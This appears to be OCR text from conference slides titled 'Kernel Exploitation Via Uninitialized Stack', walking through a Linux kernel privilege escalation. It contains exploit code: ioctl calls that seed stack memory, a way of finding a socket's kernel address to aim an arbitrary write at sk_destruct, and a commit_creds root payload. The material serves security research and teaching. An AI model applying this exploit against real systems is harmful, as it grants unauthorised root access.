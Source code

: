 unsigned int syscall32(unsigned int syscall, unsigned int arg1,

unsigned int arg2, unsigned int arg3)

{

unsigned int rc;

asm volatile("movl %1, %%ebx; movl %2, %%ecx;\n"

"movl %3, %%edx; movl %4, %%eax;\n"

"int $0x80;

movl %%eax, %0;\n"

: "=g"(rc) /* output */

: "g"(arg1), "g"(arg2), "g"(arg3), "g"(syscall) /* input */

: "%eax", "%ebx", "%ecx", "%edx" /* clobbered registers */ );

return rc;

}

...

// beat memory into the stack...

code = 0x40347605; // VIDIOCSTUNER

syscall32(IOCTL_SYSCALL, (unsigned int)dev, code, (unsigned int)(uintptr_t)tuner);

syscall32(IOCTL_SYSCALL, (unsigned int)dev, code, (unsigned int)(uintptr_t)tuner);

/* VIDIOCSMICROCODE32, the badly constructed VIDIOCSMICROCODE */ code = 0x4020761b;
syscall32(IOCTL_SYSCALL, (unsigned int)dev, code, (unsigned int)(uintptr_t)vc);

24 Kernel Exploitation Via Uninitialized Stack by Kees Cook

become root
25 Kernel Exploitation Via Uninitialized Stack by Kees Cook

aim arbitrary write at target
Use struct sock exploit method from Dan Rosenberg's code
 open a TCP socket  Look up where the socket is in kernel memory from /proc/net/tcp  target the sk_destruct function pointer, offsetof(struct sock, sk_destruct)  (kptr_restrict now blocks /proc/net/tcp but not INET_DIAG netlink for same information)
$ cat /proc/net/tcp | grep 7A69 9: 00000000:7A69 00000000:0000 0A 00000000:00000000 00:00000000
00000000 1000 0 2087721 1 ffff88011c972d80 300 0 0 2 -1
26 Kernel Exploitation Via Uninitialized Stack by Kees Cook

create a payload
Use prepare/set cred payload method from Brad Spengler's Enlightenment code
 Look up kernel addresses for needed functions  Call them to reset credentials to uid 0
commit_creds = (_commit_creds)get_kernel_sym("commit_creds"); prepare_kernel_cred = (_prepare_kernel_cred)get_kernel_sym("prepare_kernel_cred"); ... int __attribute__((regparm(3))) getroot(void * file, void * vma) { commit_creds(prepare_kernel_cred(0)); return -1; }
27 Kernel Exploitation Via Uninitialized Stack by Kees Cook
